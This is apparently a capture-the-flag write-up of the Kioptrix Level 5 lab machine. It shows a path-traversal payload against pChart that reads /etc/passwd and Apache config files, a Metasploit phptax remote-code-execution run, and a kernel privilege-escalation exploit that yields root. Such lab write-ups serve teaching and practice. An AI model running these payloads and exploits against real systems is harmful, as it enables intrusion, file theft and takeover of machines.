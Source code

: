 <h1>Kioptrix: Level 5 Write-up</h1>

<h2>NMAP</h2>

```
PORT     STATE  SERVICE VERSION  
80/tcp   open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)  
8080/tcp open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
```

<h3>PORT 80</h3>


Found **/pChart2.1.3/index.php** in source code. 

After searching for the tool’s name on searchsploit, it showed that it’s vulnerable to LFI.

```
http://192.168.1.68/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd  
```

**Checking For Config File's :**

```
http://192.168.1.68/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf  
```

After reading carefully i found i have to access port 8080 with different **user-agent** :

```
curl -H "User-Agent:Mozilla/4.0" http://192.168.1.68:8080
curl -H "User-Agent:Mozilla/4.0" http://192.168.1.68:8080/phptax/
```

<h3>Exploiting phptax (METASPLOIT):</h3>

```
use exploit/multi/http/phptax_exec
set RHOST 192.168.1.68
set RPORT 8080
run
```

<h2>Privilege Escalation</h2>

Exploit : https://www.exploit-db.com/exploits/28718

```
gcc exploit.c  
  
./a.out  
[+] SYSRET FUCKUP!!  
[+] Start Engine...  
[+] Crotz...  
[+] Crotz...  
[+] Crotz...  
[+] Woohoo!!!  
whoami  
root  
```
